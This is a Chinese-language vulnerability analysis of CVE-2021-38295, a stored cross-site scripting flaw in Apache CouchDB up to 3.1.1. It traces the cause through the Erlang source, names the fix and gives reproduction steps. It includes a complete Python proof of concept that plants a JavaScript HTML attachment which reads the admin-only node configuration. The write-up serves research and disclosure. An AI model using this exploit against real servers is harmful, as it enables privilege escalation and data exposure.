

# CVE-2021-38295 CWE-79 CouchDB XSS

## 漏洞背景

- **文档**：Apache CouchDB 是一个开源的面向文档的数据库管理系统，采用 JSON 格式存储数据。 在 CouchDB 中，**文档**是数据存储的基本单元，每个文档都是自包含的，包含一组键值对。这些键值对的值可以是字符串、数字、日期等简单数据类型，也可以是数组或嵌套的 JSON 对象等复杂数据类型。每个文档都有一个全局唯一的标识符（`_id`）和一个修订版本号（`_rev`），用于标识文档和管理版本控制。文档可以包含附件，例如图像、PDF文件或HTML文件等。这些附件可以通过CouchDB的RESTful API进行上传和管理。
- **文档添加附件的过程：**
  1. **创建文档：** 首先，需要创建一个文档并为其分配一个唯一的`_id`。这可以通过发送一个包含文档内容的PUT请求来完成。
  2. **上传附件：** 一旦文档创建成功，可以向该文档添加附件。这通过向文档的特定路径发送PUT请求来实现，其中包含附件的数据和元数据（如内容类型）。例如，可以上传一个HTML文件作为附件。

## 漏洞原理

在 CouchDB 中，用户可以向文档添加附件，包括 HTML 文件。如果恶意用户在数据库中创建了一个包含嵌入 JavaScript 代码的 HTML 附件，并诱使 CouchDB 管理员通过浏览器（例如通过 Fauxton 管理界面）打开该附件，嵌入的 JavaScript 代码将在管理员的安全上下文中执行。这可能导致攻击者以管理员身份执行操作，从而添加或删除任何数据库中的数据，或进行配置更改。

## 漏洞定位

1、在 **src\chttpd\src\chttpd_db.erl** 文件的第 **1425**和 **1531** 行，两个不同参数的`db_attachment_req`函数处理附件的 GET、PUT 和 DELETE 请求。这两个函数都未对附件内容进行任何验证，并且没有对 `Content-Type` 进行过滤或限制的逻辑，而只是简单地接收附件数据并存储到文档中。这意味着，任何类型的文件都可以被上传，包括包含恶意 JavaScript 代码的 HTML 文件。下面跟踪文件处理部分的代码。

```erlang
db_attachment_req(#httpd{method='GET',mochi_req=MochiReq}=Req, Db, DocId, FileNameParts) ->
    % 处理 GET 请求，发送附件数据
    % ...
    end;
    
db_attachment_req(#httpd{method=Method, user_ctx=Ctx}=Req, Db, DocId, FileNameParts)
        when (Method == 'PUT') or (Method == 'DELETE') ->
    % 处理 PUT 和 DELETE 请求，接收附件数据并更新文档和删除附件
    FileName = validate_attachment_name(
                    mochiweb_util:join(
                        lists:map(fun binary_to_list/1,
                            FileNameParts),"/")),

    NewAtt = case Method of
        'DELETE' ->
            [];
        _ ->
            MimeType = case couch_httpd:header_value(Req,"Content-Type") of
                % We could throw an error here or guess by the FileName.
                % Currently, just giving it a default.
                undefined -> <<"application/octet-stream">>;
                CType -> list_to_binary(CType)
            end,
            Data = fabric:att_receiver(Req, chttpd:body_length(Req)),
            ContentLen = case couch_httpd:header_value(Req,"Content-Length") of
                undefined -> undefined;
                Length -> list_to_integer(Length)
            end,
            ContentEnc = string:to_lower(string:strip(
                couch_httpd:header_value(Req, "Content-Encoding", "identity")
            )),
            Encoding = case ContentEnc of
                "identity" ->
                    identity;
                "gzip" ->
                    gzip;
                _ ->
                    throw({
                        bad_ctype,
                        "Only gzip and identity content-encodings are supported"
                    })
            end,
            [couch_att:new([
                {name, FileName},
                {type, MimeType},
                {data, Data},
                {att_len, ContentLen},
                {md5, get_md5_header(Req)},
                {encoding, Encoding}
            ])]
    end,

    Doc = case extract_header_rev(Req, chttpd:qs_value(Req, "rev")) of
        missing_rev -> % make the new doc
            if Method =/= 'DELETE' -> ok; true ->
                % check for the existence of the doc to handle the 404 case.
                couch_doc_open(Db, DocId, nil, [])
            end,
            couch_db:validate_docid(Db, DocId),
            #doc{id=DocId};
        Rev ->
            case fabric:open_revs(Db, DocId, [Rev], [{user_ctx,Ctx}]) of
            {ok, [{ok, Doc0}]} ->
                chttpd_stats:incr_reads(),
                Doc0;
            {ok, [Error]} ->
                throw(Error);
            {error, Error} ->
                throw(Error)
            end
    end,

    #doc{atts=Atts} = Doc,
    DocEdited = Doc#doc{
        atts = NewAtt ++ [A || A <- Atts, couch_att:fetch(name, A) /= FileName]
    },
    W = chttpd:qs_value(Req, "w", integer_to_list(mem3:quorum(Db))),
    case fabric:update_doc(Db, DocEdited, [{user_ctx,Ctx}, {w,W}]) of
    {ok, UpdatedRev} ->
        chttpd_stats:incr_writes(),
        HttpCode = 201;
    {accepted, UpdatedRev} ->
        chttpd_stats:incr_writes(),
        HttpCode = 202
    end,
    erlang:put(mochiweb_request_recv, true),
    DbName = couch_db:name(Db),

    {Status, Headers} = case Method of
        'DELETE' ->
            {200, []};
        _ ->
            {HttpCode, [{"Location", absolute_uri(Req, [$/, DbName, $/, couch_util:url_encode(DocId), $/,
                couch_util:url_encode(FileName)])}]}
        end,
    send_json(Req,Status, Headers, {[
        {ok, true},
        {id, DocId},
        {rev, couch_doc:rev_to_str(UpdatedRev)}
    ]});
```

2、在文件 **src\chttpd\src\chttpd_misc.erl 文件的第 **87** 行`handle_utils_dir_req`函数用于处理对`/_utils/`路径的请求，这个路径通常用于提供CouchDB的Web界面（如Fauxton）。这个函数调用了`couch_httpd:serve_file`函数来处理文件请求，包括HTML文件。

```erlang
handle_utils_dir_req(Req) ->
    handle_utils_dir_req(Req, get_docroot()).

handle_utils_dir_req(#httpd{method='GET'}=Req, DocumentRoot) ->
    "/" ++ UrlPath = chttpd:path(Req),
    case chttpd:partition(UrlPath) of
    {_ActionKey, "/", RelativePath} ->
        % GET /_utils/path or GET /_utils/
        CachingHeaders = [{"Cache-Control", "private, must-revalidate"}],
        EnableCsp = config:get("csp", "enable", "false"),
        Headers = maybe_add_csp_headers(CachingHeaders, EnableCsp),
        chttpd:serve_file(Req, RelativePath, DocumentRoot, Headers);
    {_ActionKey, "", _RelativePath} ->
        % GET /_utils
        RedirectPath = chttpd:path(Req) ++ "/",
        chttpd:send_redirect(Req, RedirectPath)
    end;
handle_utils_dir_req(Req, _) ->
    send_method_not_allowed(Req, "GET,HEAD").
```

3、在 **src\couch\src\couch_httpd.erl** 文件第 **506** 行`serve_file`函数用于处理文件请求，包括 HTML 文件。这个函数的主要职责是将请求的文件内容发送回浏览器，以便浏览器可以渲染该文件。函数本身并不直接渲染 HTML 文件，而是将文件内容发送回浏览器。浏览器会根据文件的 MIME 类型和内容决定如何渲染该文件。如果文件是 HTML 格式，浏览器会尝试解析并渲染 HTML 内容，包括执行其中的 JavaScript 代码，而不会做任何检查和限制。

```erlang
serve_file(Req, RelativePath, DocumentRoot) ->
    serve_file(Req, RelativePath, DocumentRoot, []).

serve_file(Req0, RelativePath0, DocumentRoot0, ExtraHeaders) ->
    Headers0 = basic_headers(Req0, ExtraHeaders),
    {ok, {Req1, Code1, Headers1, RelativePath1, DocumentRoot1}} =
        chttpd_plugin:before_serve_file(
            Req0, 200, Headers0, RelativePath0, DocumentRoot0),
    log_request(Req1, Code1),
    #httpd{mochi_req = MochiReq} = Req1,
    {ok, MochiReq:serve_file(RelativePath1, DocumentRoot1, Headers1)}.
```

综上，如果攻击者上传一个 HTML 文件，并且这个文件的 Content-Type 被设置为 text/html，数据库将不会对其进行过滤及内容检查。当其他用户访问这个附件时，会直接将 HTML 文件交给浏览器处理，浏览器则会使用当前用户的身份信息执行其中的 JavaScript 代码。

## 漏洞修复

在服务附件时使用内容安全策略的 sandbox 指令，仍然允许渲染 HTML 内容，但防止执行 JavaScript

## 影响版本

CouchDB <= 3.1.1

## 环境搭建

启动 docker 环境，couchdb 版本为 3.1.1，管理员用户为 admin，密码为 password



## 漏洞复现

1、访问 http://localhost:5984/_utils 使用管理员登录，点击 Create Database 新建 Non-partitioned 的数据库 testdb。


2、执行 poc 代码，可以看到输出文档的 URL 以及附件 URL

```cmd
python CVE-2021-38295-POC.py localhost:5984 testdb admin:password
```


3、访问脚本生成的附件 Attachment URL ，因为之前已经在浏览器中登录过管理员账户，这里可以直接看到数据库的敏感配置信息（如节点配置等），说明漏洞利用成功。


## POC分析

```python
from urllib.request import Request, urlopen
import base64
import sys
import uuid
import json

if len(sys.argv) < 4:
    print('Usage: <host> <db> <user:pass>')
    sys.exit(1)

url = "http://" + sys.argv[1]
db = sys.argv[2]
creds = sys.argv[3]
encoded_creds = base64.b64encode(creds.encode('ascii'))

# create a document to host the payload if one wasn't specified
# 使用uuid.uuid4()生成一个随机的文档ID，确保文档的唯一性，文档包含一个字段foo，值为bar
doc_id = uuid.uuid4()
document_payload = {
    "_id": f"evildoc-{doc_id}",
    "foo": "bar"
}

# 上传文档，如果上传成功，会输出文档的URL
print("Creating document to host maclicious attachment...")
req = Request(f"{url}/{db}/evildoc{doc_id}", data=json.dumps(document_payload).encode('utf-8'), method='PUT')
req.add_header('Authorization', 'Basic %s' % encoded_creds.decode("ascii"))
req.add_header('Content-Type', 'application/json')
res = urlopen(req)
json = res.read().decode()
print(f"Created {url}/{db}/evildoc{doc_id}")

# 创建一个恶意HTML附件，包含一个JavaScript脚本，脚本的作用是通过fetch请求获取CouchDB的节点配置信息（_node/_local/_config），并将获取到的配置信息以格式化的形式显示在页面上
payload = f"""

<script>
    const configUrl = "{url}/_node/_local/_config"

    fetch(configUrl)
        .then(res => res.json())
        .then(data => document.querySelector("#config_info").innerHTML = `<pre>${{JSON.stringify(data, null, 2)}}</pre>`)
</script>
<div id="config_info">
    fetching node config info that definitely only admins should be able to access...
</div>

"""

# 上传附件，如果上传成功，会输出附件的URL
print("Uploading malicious attachment...")
req = Request(f"{url}/{db}/evilattachment-{uuid.uuid4()}/attachment.html", data=payload.encode('utf-8'),
              headers={"Content-Type": "text/html"}, method='PUT')
req.add_header('Authorization', 'Basic %s' % encoded_creds.decode("ascii"))
res = urlopen(req)
json = res.read().decode()
headers = res.getheaders()
evil_doc_url = res.info()["location"]
print("Attachment URL: ")
print(evil_doc_url)
```

1. **参数检查：** 脚本首先检查命令行参数，确保提供了主机地址、数据库名称和用户名/密码。
2. **构建请求URL和认证信息：** 根据提供的主机地址和数据库名称，构建 CouchDB 的 URL。将用户名和密码进行 Base64 编码，以便在 HTTP 请求中用于基本认证。
3. **创建文档以承载恶意附件：** 生成一个唯一的文档 ID，并构建包含该 ID 的文档数据。通过发送 PUT 请求，将此文档添加到数据库中。请求头包含认证信息和内容类型。
4. **构建恶意HTML附件内容：** 定义一个包含 JavaScript 代码的HTML字符串。该代码通过 fetch 请求访问 CouchDB 的配置 URL，并将返回的数据展示在 HTML 页面中。这可能暴露管理员的配置信息。
5. **上传恶意附件：** 生成另一个唯一 ID，用于创建恶意附件的 URL。通过发送 PUT 请求，将包含恶意 JavaScript 代码的 HTML 附件上传到先前创建的文档中。请求头同样包含认证信息和内容类型。
6. **输出附件URL：** 脚本输出上传的恶意附件的URL，管理员访问该URL时，嵌入的JavaScript代码将执行。

## 参考链接

[In Apache CouchDB, a malicious user with permission to... · CVE-2021-38295 · GitHub Advisory Database](https://github.com/advisories/GHSA-gr7p-9mx8-wr74)

[2.14. CVE-2021-38295：Apache CouchDB 权限提升——Apache CouchDB® 3.4 文档 --- 2.14. CVE-2021-38295: Apache CouchDB Privilege Escalation — Apache CouchDB® 3.4 Documentation](https://docs.couchdb.org/en/stable/cve/2021-38295.html)

[ProfessionallyEvil/CVE-2021-38295-PoC: A simple Python proof of concept for CVE-2021-38295.](https://github.com/ProfessionallyEvil/CVE-2021-38295-PoC)

[挖掘沙发垫之间的空间 - CouchDB CVE-2021-38295 --- Digging Between the Couch Cushions - CouchDB CVE-2021-38295](https://www.secureideas.com/blog/digging-between-the-couch-cushions)
